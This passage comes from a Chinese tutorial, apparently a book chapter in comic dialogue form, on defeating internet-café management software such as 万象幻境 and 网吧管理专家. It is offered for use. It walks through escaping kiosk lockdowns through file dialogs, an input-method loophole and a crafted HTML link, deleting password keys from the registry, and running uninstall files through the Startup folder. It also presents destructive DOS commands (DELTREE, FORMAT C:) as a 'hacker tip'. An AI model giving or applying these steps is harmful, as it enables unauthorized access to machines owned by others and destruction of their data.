

1-3-4 系统配置实用程序

从中选到网吧管理系统的运行行，把前面选项框的勾勾掉。这样，系统在启动的时候就不会运行管理软件了。这下，就不用担心那一堆狗屁的锁定了。嘿嘿，为所欲为吧，不过不要太过分哦，得饶人处且饶人嘛。

而且，交代一下，小朋友，万一一个不小心被网吧的老板看到的话，后果你可不要说我这时候没提醒你哦。这里，你有很多的榜样，曾经有不少的人在走出网吧的时候都完成了从人类到动物的转变……

### 第二招：返朴归真！

阿瓜，你也知道啦，DOS 是比较早的操作系统啦，Windows 也不过是后生小辈。虽然到现在的 Win XP 基本上说要甩掉它，不过还是“放弃你我做不到，不论怎样也好~~”

有的时候，一些恶毒的管理软件，连“安全模式”也不放过。

> **黑客技巧**
>
> ```
> restart 进入 DOS 实模式
> DELTREE C:\SMENU
> FORMAT C: /Q /U
> ```

“等一下，我有话要说！”阿瓜举起手来说。

“你有什么意见？”

“这个，不知当不当讲？”

“但说无妨！”

“DOS 的命令我不熟呀，你可不可以说一说这两个命令？”

……

Faint！

半晌之后……

“那就掺两句说说好了，真是受不了~”

> **傻瓜攻略**
>
> `format`
>
> [功能] 磁盘格式化  
> [格式] `C:\>path\format drive: [/S]`  
> [说明] 厂家制造的各种磁盘可用来存储各种操作系统下的文件，不同操作系统的磁盘格式一般是不相同的，是不通用的。是使一个新的磁盘可以被 DOS 操作系统识别，即可存储 DOS 文件。  
> 这个命令对磁盘的格式化过程，实际上是用 DOS 规定的信息存储格式对磁盘进行规划的过程。格式化磁盘时，要清除磁盘上已经存在的所有数据，在磁盘上写引导记录，划分出文件分配表和根目录，同时，它还要找出磁盘上的所有坏扇区并作上不可使用的标记。命令参数我们这里只列出了一个：`/S`。当使用了这个参数后，磁盘格式化并装入操作系统文件，使之变成引导盘，相当于 `format` 后再进行下命令：`SYS`。

```
deltree

[功能] 删除目录树
[格式] C:\>DELTREE [C:] [path1] [[C2:] [path2] ...]
[说明] 这个命令将整个指定目录树全部消灭，而不管它是否是只读、隐藏与否。使用应特别小心。它是一个危险命令。
```



这里有个小招数，可以把 win… 文件改名或者删掉，那么就可以进入 DOS。现在你知道该怎么做了吗？

阿瓜说：“嗯，原来也不过如此，吓我半死，还以为有多厉害。”

“对啊，这些办法只是通常大家想不到而已。不过，这些方法在有些刁钻的网吧还是会行不通的。有的网吧管理员会禁止我们使用安全模式或者是 DOS 实模式。”

“是吗？那是不是就只有逆来顺受的份了？”

“切，当然不是了，方法是人想出来的……”

一分钟过去了……一个小时过去了。榕哥抬起头来，饱含泪水：“Follow me!”

“第一步：首先打开一个 IE 窗口……点击 IE 窗口左上角的‘文件’菜单，在下拉菜单中选择‘打开’选项，会弹出如图 1-3-5 所示窗口。”

IE 窗口左上角的“文件”菜单，在下拉菜单中选择“打开”选项，会弹出如图 1-3-5 所示窗口：

点击其中的“浏览”按钮，可以看到如图 1-3-6 所示窗口：






在该窗口的“文件类型”下拉列表框中选择“所有文件”。会弹出如图 1-3-7 所示的对话框：



第二步：在此窗口最上面的“搜索”下拉列表框中选 C 盘（因为网吧管理软件一般都安装在 C 盘，所以我们选 C 盘）。

第三步：在 C 盘中找到网吧管理软件所在的文件夹，那些讨厌的文件一般都装在根目录或 Program Files 目录中（也可能安装在其他盘下，只要在“搜索”中选相应盘符就可以了）。

第四步：进入网吧管理系统所在的文件夹，会看见很多文件，注意，我们的目标是——“没有蛀牙！”

“个白菜，想的都是什么乱七八糟的，好好给我听着！”榕哥作怒。

……

“刚才说到哪里了？”

“好像是我们的目标是……”阿瓜战战兢兢。

“哦，继续！”

……自动反安装文件 uninstall.exe 或文件名为卸载之类的文件，你找到了吗？

第五步：单击鼠标左键，选中找到的反安装文件，按键盘上的 Ctrl+C 组合键，复制该文件。

“你干吗啊？直接运行反安装软件不就可以了吗？”阿瓜都着急了。

“Sorry，让你失望了。那样不行！因为网吧管理软件已经屏蔽了直接运行文件功能，你想运行文件是不可能的！”

“那该怎么办？”

“看好了：进入 `C:\WINDOWS\Start Menu\Programs\启动` 文件夹，按 Ctrl+V 粘贴反安装文件。”

“这个启动的文件夹是干什么用的？”阿瓜睁着一双水汪汪的大眼睛，还不时地眨巴眨巴着。

榕哥一阵恶心，操起手中的宝贝书就砸过去：“听好喽！”





然后再从第二步做起就 OK 了！这时候也可以到 `C:\Windows\System` 下去找到 msconfig 的运行文件，后面的不用我再教你一遍了吧？

类似的还有很多用来收发邮件的软件，如 Foxmail 和 Outlook。以 Foxmail 为例来讲讲，Outlook Express 类同。点“邮件”→“写新邮件”，在出现的“写邮件”窗口中点击“邮件”菜单下的“增加附件”，就会调出“打开”对话框，具体步骤如图 1-3-（10～12）Foxmail（1～3），可以看到驱动器列表和目录列表了，想怎么样自己看着办吧。





## 疑似发现

这个启动夹里面，你可以放入你想要开机自动运行的程序的快捷方式，这些程序的扩展名基本上机子里有被注册过的都行。像 txt、ini、exe、m3u 等等都可以。

第六步：重新启动机器。

“Oh yes 这样就可以让系统自动运行这个 uninstall.exe 了吧！”

“对了，孺子可教也！”榕哥捻了捻那一小撮胡子，得意地说。

“那如果网吧管理员把‘浏览’窗口给屏蔽了怎么办？”

“不用担心，不用担心。”

你可以进入自己的 E-mail，以 WEB 方式收发信件，进“写邮件”，再点击“附件”→“浏览”按钮，这样就可以浏览所在机器的硬盘（如图 1-3-8、1-3-9，“以 web 方式发邮件添加附件的图示”）。


“刚才不是还说利用 ACDSee 的吗？”阿瓜问。

> 傻瓜技巧：其实原理和前面说的是差不多的，只要是有驱动器列表和目录列表控件的软件几乎都可以被利用，因为那是 Windows 的标准控件，一般是很难屏蔽的。如果网吧中有这种软件，利用它的浏览功能，可以轻松地找到任何一个文件。

“我记得好像 IE 的那个窗口也可以这样打开吧？”阿瓜模糊地说。

“对啦，就是下面这样的。”如图 1-3-16。

“其实 IE 呢也不是只有这么用，还可以用它的收藏夹的功能，总之是尽量把它可以被敲的地方榨它个一干二净。”

“真是够狠的啊～”阿瓜满脸奸笑地说，“你快说说具体怎么回事？”

“打开 IE……”（废话）……

- 第一步：点“收藏”项，选“链接”。如图 1-3-17。
- 第二步：看这个“链接”不顺眼吧，把它拖到 IE 窗口里的空白地方去。出现如 1-3-18 图面。要想这样就把它干掉是做不到的，而且要的就是它，呵呵。因此，再不顺眼也留着它吧！阿门～
- 第三步：点击“向上”、“向上”、再“向上”，看到了什么？对了，是 C 盘根目录！此时已经可以为所欲为了。（奸笑）

“其实，另外呢，还有普通点的办法，比方用 QQ，没想到吧，小 Q 也是很有神通的哦。”

“你快说嘛，我都不知道 Q 仔还有破解的功能。快说快说啊！”阿瓜急不可待。

#### 1.3.2 秘密探险——利用 QQ 法

**Q 仔神功：**  
榕哥嘿嘿一笑说：“网吧别的软件可以没有，但 QQ 绝对会有，不然这种网吧保证没人捧场。”

- 第一步：打开 QQ，随便选择一个好友，点传送文件，就会出现一个小窗口，让你选择文件，秘密就在这里。
- 第二步：找到 C 盘下的注册表编辑器 regedit.exe，先用鼠标选中该文件，松开鼠标后点击右键（注意先不要松开右键），再点左键即可弹出右键菜单。里面有删除、打开、复制等选项，和正常限制下不一样。
- 第三步：右面这个界面（1-3-19）大家都很熟悉。随后文中以对话形式继续说明操作过程。
- 第四步：选到 C 盘去，这个不用多说。接下来“跟上面说的一样啦！”——随后进入较长的叙述与人物对话，说明继续利用 QQ 浏览器窗口与右键菜单执行文件。

幻想来个几百 T 的大炮，砸死眼前这个……（省去两万字骂人的话）“Q 仔所带的 TE 浏览器呢……”

- 第一步：先启动它，在地址栏直接输入 `C:`，回车后可看到 C 盘内容，如图 1-3-21、1-3-22。
- 第二步：但到了 C 盘有什么用呢？如果网管做了手脚，还是不能直接执行文件。对目标文件按鼠标右键（注意是右键），随后配合左键触发正常右键菜单，再点击“打开”即可执行，如图 1-3-23 所示。

后续为连续对话段落：

“怎么不说了啊？”  
“说完了，没得说了啊！”  
“切，这么菜啊！”  
“那张相片可以给我了吧？”  
“no，我还没听爽呢！”  
“Where？where?”

不得已，榕哥这回要“倾巢而出”了：P。“这么些，还有一招利用 Windows 的启动的，但是……不是那么容易成功的。”榕哥依依那个不舍地说，“勉强整个‘先下手为强’。”

## 1.3.3 榕学综述——利用“帮助”途径

- 第一步：在进入 Win98 启动过程中，网吧管理专家把鼠标锁定在右边的时候，左键单击屏幕。
- 第二步：按 F1 键（多按几次），在彻底出现登录窗口的时候，如果成功的话会出现“Windows 帮助”窗口。如图 1-3-24。
- 第三步：在“选项”下拉菜单中选择“Web 帮助”，如图 1-3-25。
- 第四步：在“Web 帮助”窗口中点击“联机支持”的链接，这时弹出一个 Internet Explorer 浏览器了。只要在地址栏中输入要访问的站点（如在地址栏里输入 `http://www.sina.com.cn`）或盘符（如 C 盘 `c:\`）。
- 第五步：如果网吧管理专家对硬盘进行保护使我们没法访问某个盘符时，可以按“F3”键（Windows 默认的查找热键）弹出一个查找窗口后，如图 1-3-27。输入你想打开的文件或文件夹进行查找，找到后即可打开。

“还可以利用桌面的快捷方式。”

- 第一步：对桌面上的快捷方式点击右键，如图 1-3-28。
- 第二步：在弹出的菜单中选择“属性”，弹出属性窗口如图 1-3-29。
- 第三步：更改图标，如图 1-3-30。
- 第四步：点击“浏览”，可以打开文件浏览窗口，如图 1-3-31。
- 第五步：看是不是 C 盘出来了，没有的话就找嘛，然后点击向上到 C 盘 Windows 文件夹，找到系统工具的系统配置实用程序，将自启动程序去掉，重启机器这样就可以啦！

“说了这么多，好像都差不多的嘛，一个道理啊。就是为了调出 Windows 的标准什么……控件是吧……就是为了调它出来嘛。有没有别的招数啊你。”阿瓜用极度怀疑的眼光看着榕哥说。

这句话，已经深深地刺痛了榕哥的心。他自修炼莲花宝典以来，自负自己招式繁多，招招精妙绝伦，号称“前无古人，后无来者”，没想到，如今被一个菜鸟一下戳中要害。他简直就只剩下“念天地之悠悠，独怆然而涕下”的份了。唉……

他终于决定，使出他惊天地，泣鬼神，无与伦比的一招：Ctrl+Alt+Del 大法。

Ctrl+Alt+Del，大家会看到一个 client 项，结束它。但这时候还不行，过一会儿还会启动一次，再按 Ctrl+Alt+Del 结束它（这个步骤很不好使，要试好多次才能掌握）。太快不行，太慢也不行，试多了就行了，最后你就会百试百灵。

还能晓以退为进，就是干脆帮老板升级一下网吧管理的软件，发现什么了没有？哈哈，管理软件的密码已经没有了，即已经被解除了嘛。那还等什么，嘿嘿，人面不知何处去，桃花依旧笑痴狂。哈哈。

#### 1.3.4 乱七八“招”

“再教你一招‘乱七八招’。”

有那么些网吧，为了管理的需要，会留个“计划任务”放到 task 那里去。孩子，这可是个机会啊。Let’s go！进去以后，嘴里嘟哝一句白烂：孩子，看到了什么没有。对啦，发现你已经到了我的电脑里面哦。那还等什么，想干什么就去发挥！

### 1.4 对症下药——具体软件具体分析

下面就来给你讲讲破解具体的管理软件的策略吧！

#### 1.4.1 万象幻境

“在网吧管理者眼中万象幻境是个优秀的网吧管理软件，在我们网虫眼中它太‘讨厌’了，因为它限制了我们上网时的种种自由。就先针对一下万象幻境。”

##### 利用输入法漏洞

“输入法漏洞不是中文 Win2000 的漏洞吗？”阿瓜似曾听说。

“没错！不过万象幻境也有这个漏洞！”

##### 方法很简单

- 第一步：按 Ctrl+Shift 打开微软拼音输入法（如没有，用其它输入法也可，方法类似）；
- 第二步：将光标插入会员卡号的文本输入框内；
- 第三步：开始往里面输入任意一个拼音字母，然后就会出现拼音的状态条；
- 第四步：在状态条上点击右键，或用键盘上的属性键，就会出现一个下拉菜单，选择其中的“定义词组”（放心，就算系统限制右键，在这也不管用）；
- 第五步：选择文件菜单里面的“保存”，就会调出保存对话框；
- 第六步：随便选择一个文件夹，点击右键，选择“资源管理器”，打开，一切就 OK 啦！如果鼠标被限定在那个锁定窗口内，就用键盘操作。

这个方法比较简单、快捷。也可以用高级点的招式：

- 第一步：随便打开一个网页，按鼠标右键查看源代码，把里面的源代码全部删除；
- 第二步：输入以下主要内容：

```html
<html>
<head>
<title>***</title>
</head>
<body>
<a href="c:">***破解</a>
</body>
</html>
```

- 第三步：将文件另存为一个 html 文件，如 `unlock.html`。
- 第四步：用 IE 打开这个文件会看到一个链接写着：***破解，单击这个链接就可以进入硬盘了！
- 第五步：查找万象幻境所在的文件夹，一般都是在 C 盘根目录或 `C:\Program Files` 下，要查找的文件夹名为 `Octopus`，找到后将文件夹 Octopus 改名（随便改为什么名都可以），重新启动电脑，万象幻境就将不再启动！
- 第六步：现在运行 regedit.exe 进入注册表（如你所在的机子的注册表没有被锁定，则不用重启，可直接双击 `c:\windows\regedit.exe` 进入注册表），展开注册表到 `HKEY_LOCAL_MACHINE\Software\万象幻境\专家系列网管软件` 下，删除所有键值名中带有“password”字样的键值，然后更新注册表即可。这样，这台机子的所有万象幻境设定的密码就都没有了，限制解除了！

榕哥很自豪自己说得这么流利，满意地又喝了一口茶，然后又继续说法。

还可以这么做：在锁定窗口上的“会员卡号”后面输入***很多的字符，比如用中文输入法更方便，当达到一定数量的时候点“上机”按钮，这样会出现一个错误提示，呵呵，这时候就可以把鼠标随便移动了：），下面的你们也就会做了吧。

就是想办法开出一个窗口，比如输入法的帮助文件什么的，只要有菜单的就行，在文件里找类似“打开”的，就可以查看本地硬盘甚至局域网里的文件了，还能打开任意文件。要是客户端设置有屏蔽的话，可以进入万象所在的文件夹（一般是 `C:\octopus`），运行里面的 `uninstall.exe`，再进入它的设置程序（`setup.exe`），这样就不需要密码了。现在里面的密码你可以自己设置。还有一些比如鼠标右键什么的限制，你可以进入 `c:\Windows` 下找 `control.ini` 把文件夹的限制去掉，当然要重新启动才会生效。可是如果机器里装有还原卡之类的东西怎么办？呵呵，我们可以用另一种方法重启，在“网络属性”里随便改一种登录方式，这样重启的话将会是“快速重新启动”，就是说能跳过还原卡的。如果网络属性都不能改的话，还可以自己随便做一个“快速重新启动”的快捷方式，运行之，因为现在的桌面等环境已经是你自己设置的了，所以你不要说不会做啊……

#### 1.4.2 网吧管理专家

榕哥心里有一种满足感，说道：“再来给你讲一讲这个……针对‘网吧管理专家’的破解吧！现在的网吧几乎全部都是安装‘网吧管理专家’来进行对网吧的管理。网吧管理员以设置密码的方式来防止别人任意修改、访问等操作。那么只要搞到这些密码，你就可以畅行无阻了。”

若是不能退出“网吧管理专家”客户端程序，那你就重启计算机以安全模式启动 Windows，再按照如下所述操作；若是能退出“网吧管理专家”客户端程序，回到 Windows 操作界面，就可以如下操作：

- 第一步：在“开始 → 运行”输入：`regedit.exe`（进行对 Windows 注册表的编辑），看看是否把 regedit.exe 禁用。若是禁用，请用超级兔子魔法设置（MagicSet）把禁用更改为允许使用。具体操作：超级兔子魔法设置 → 安全与其它 →（取消）禁止使用注册表编辑器 REGEDIT.EXE → 保存。regedit.exe 就能正常使用了。
- 第二步：找到“网吧管理专家”所写注册表的位置。具体位置：`[HKEY_LOCAL_MACHINE\SOFTWARE\万象幻境\专家系列网管软件]`。

当进入到上述位置，您会看到右边窗口有如下信息：计算机解锁密码、运行设置程序密码、历史记录密码、退出密码、DownloadPassword、VisitDiskPassword 等字符串值。跟随其后的一长串数字就是“网吧管理专家”设置各项功能的密码（密码已被编译）。您想清除哪项功能的密码，就找到相应的字符串值将其删除就行了。

- 计算机解锁密码：“网吧管理专家”对电脑进行解锁所需要的密码。
